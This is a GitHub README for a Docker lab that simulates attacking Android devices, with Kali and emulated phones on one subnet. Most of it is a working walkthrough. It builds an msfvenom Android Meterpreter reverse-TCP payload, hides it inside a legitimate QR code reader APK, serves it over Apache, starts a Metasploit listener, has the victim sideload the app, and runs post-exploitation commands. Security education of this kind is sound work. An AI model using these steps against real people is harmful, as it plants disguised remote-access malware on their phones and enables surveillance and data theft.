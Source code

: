 # androidExploitwithMetasploit

This project aims to simulate an attack scenario against Android devices. Using docker compose file you can simulate a subnet with android device and kali machine inside

## Requirements

1. Docker and docker-compose are installed in your system. Check installation here: https://www.docker.com/
2. This project use a docker image for android device. Check the documentation here: https://github.com/budtmo/docker-android
3. Before you start check if your machine support virtualization:
 ```bash
sudo apt install cpu-checker
kvm-ok
```
## Quick start

1. Download Dockerfile and docker-compose.yml from this repository
2. Go inside the directory containing files.
3. Open terminal and run:
```bash
docker-compose up
```
4. Open the browser and check http://localhost:6080 to see android device S10 running.
5. Open the browser and check http://localhost:6081 to see android device S8 running.
6. Open terminal and run:
```bash
docker exec -it kali bash
```
6. Now you can interact with kali linux and metasploit-framework
7. Run nmap checking network devices info into the network 
```bash
nmap -O 172.16.238.0/24
```
# Attack scenario 
## Create malicious apk

1. Create .apk android meterpreter reverse tcp payload with msfvenom command.
2. Inject malware.apk into QRcodeReader.apk (legitimate app) with -x option. 
3. Set LHOST=172.16.238.10 and LPORT=4444. Then save .apk file with -o option:
```bash
 msfvenom -p android/meterpreter/reverse_tcp -x app/QRcodeReader.apk LHOST=172.16.238.10 LPORT=4444 -o malware.apk
```
4. Move generated malware.apk into apache server directory /var/www/html with this command:
```bash
mv malware.apk /var/www/html
```
5. Run apache2 server:
```bash
service apache2 start
```
## Configure metasploit listener 

1. Go on kali and run metasploit-framework:
```bash
msfconsole
```
2. Set generic handler:
```bash
use multi/handler
```
3. Set payload type:
```bash
set PAYLOAD android/meterpreter/reverse_tcp
```
4. Set LHOST:
```bash
set LHOST 172.16.238.10
```
5. Set LPORT:
```bash
set LPORT 4444
```
6. Run exploit:
```bash
exploit
```
7. Well done! Now you can wait victim install the apk file.

## On Android Device

1. On android devices open browser, type 172.16.238.10/malware.apk and download the app.
2. Install malware.apk enabling unknown sources from setting menu. Open the app!

## Post exploit

1. On kali machine you can see new session opened and use meterpreter console. Run help to see all allowed commands
```bash
help
```
2. Run app_list to show all app installed on victim device:
```bash
app_list
```

